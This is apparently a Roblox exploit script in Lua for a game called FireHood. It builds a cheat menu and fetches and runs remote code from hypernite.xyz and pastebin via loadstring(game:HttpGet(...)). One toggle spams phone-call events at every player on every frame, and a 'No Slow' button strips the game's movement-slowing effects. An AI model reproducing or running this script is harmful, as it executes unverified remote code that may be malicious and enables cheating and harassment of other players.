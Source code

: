 wait(5)
loadstring(game:HttpGet("https://hypernite.xyz/Scripts/Ukraine.lua"))()
local Library = loadstring(game:HttpGet("https://pastebin.com/raw/vff1bQ9F"))()
local Window = Library.CreateLib("FireHood Newb", "Serpent")


local Tab1 = Window:NewTab("Main")
local Tab1Section = Tab1:NewSection("Main Script")

Tab1Section:NewToggle("Spam Call", "Spam Call Everyone", function(state)
    if state then
getgenv().SpamCall = true

local plrs = game:GetService("Players")
local phone = game:GetService("ReplicatedStorage").MainEvent
local RunService = game:GetService("RunService")

if getgenv().SpamCall then
    local deez = RunService.RenderStepped:Connect(function()
        if getgenv().SpamCall == false then
            deez:Disconnect()
        end
        for i,v in pairs(plrs:GetPlayers()) do
            phone:FireServer("PhoneCall", v.Name)
        end
    end)
end
    else
getgenv().SpamCall = false

local plrs = game:GetService("Players")
local phone = game:GetService("ReplicatedStorage").MainEvent
local RunService = game:GetService("RunService")

if getgenv().SpamCall then
    local deez = RunService.RenderStepped:Connect(function()
        if getgenv().SpamCall == false then
            deez:Disconnect()
        end
        for i,v in pairs(plrs:GetPlayers()) do
            phone:FireServer("PhoneCall", v.Name)
        end
    end)
end
    end
end)

Tab1Section:NewButton("Reset", "Reset", function()
loadstring(game:HttpGet('https://pastebin.com/raw/Zr25UEXi'))()
end)

Tab1Section:NewButton("No Slow", "Anti Slow", function()
local lplayer = game.Players.LocalPlayer

game:GetService('RunService').Stepped:Connect(function()
   pcall(function()
       lplayer.Character.BodyEffects.Movement:ClearAllChildren()
   end)
end)
end)
